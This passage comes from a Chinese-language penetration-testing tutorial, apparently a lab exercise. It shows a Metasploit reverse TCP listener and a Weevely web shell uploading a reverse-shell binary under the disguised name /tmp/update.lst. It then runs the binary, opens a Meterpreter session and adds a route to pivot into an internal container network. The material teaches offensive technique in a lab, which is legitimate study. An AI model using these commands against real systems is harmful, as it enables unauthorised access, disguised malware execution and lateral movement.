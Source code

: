 最后，我们可以 `run` 处理模块，启动监听器并等待传入的 Meterpreter 会话：

```
**msf exploit(handler) > run**
**[*] Started reverse TCP handler on 192.168.1.193:443** 
**[*] Starting the payload handler...**

```

完成上述步骤后，我们可以将反向 shell `nix64_rev443` 上传并执行到容器中。我们也可以使用 Weevely 来帮助我们完成此操作：

在 Weevely 控制台中，我们可以再次使用 `:file_upload` 命令：

```
**weevely > :file_upload /root/tools/nix64_rev443 /tmp/update.lst**
**True**

```

将恶意软件安全地放入目标的临时文件夹后，我们需要使用 `chmod` 将其设置为可执行文件，最后直接运行它：

```
**weevely > chmod +x /tmp/update.lst**
**weevely > /tmp/update.lst**

```

Metasploit 处理程序模块应已生成一个新的 Meterpreter 会话。我们可以通过执行 `sysinfo` 命令来确认反向 Meterpreter shell 是否正常工作：

```
**[*] Sending stage (2854264 bytes) to 192.168.1.230**
**[*] Meterpreter session 1 opened (192.168.1.193:443 -> 192.168.1.230:43558)**

**meterpreter > sysinfo**
**Computer     : 172.18.0.4**
**OS           : Debian 8.9 (Linux 3.13.0-128-generic)**
**Architecture : x64**
**Meterpreter  : x64/linux**
**meterpreter >**

```

如前所述，pivoting（跳板攻击）是一种技术，它允许我们通过被攻陷主机代理流量，并攻击内部网络及更远的地方。Metasploit 提供了路由功能，我们可以使用它将 TCP 流量通过 Meterpreter 会话从我们的攻击机进行隧道传输。

为了实现这一点，我们必须将 Meterpreter 会话发送到后台。这样不会中断连接，并且我们将能够配置 Metasploit 以便通过被攻陷的系统正确地路由流量：

```
**meterpreter > background**
**[*] Backgrounding session 1...**

```

在 Meterpreter 会话耐心等待的后台，我们可以使用熟悉的 `route add` 命令添加一个新的 Metasploit 路由：

```
**msf exploit(handler) > route add 172.18.0.0 255.255.0.0 1**
**[*] Route added**
**msf exploit(handler) > route**

**IPv4 Active Routing Table**
**=========================**

 **Subnet             Netmask            Gateway**
 **------             -------            -------**
 **172.18.0.0         255.255.0.0        Session 1**

**[*] There are currently no IPv6 routes defined.**
**msf exploit(handler) >** 

```

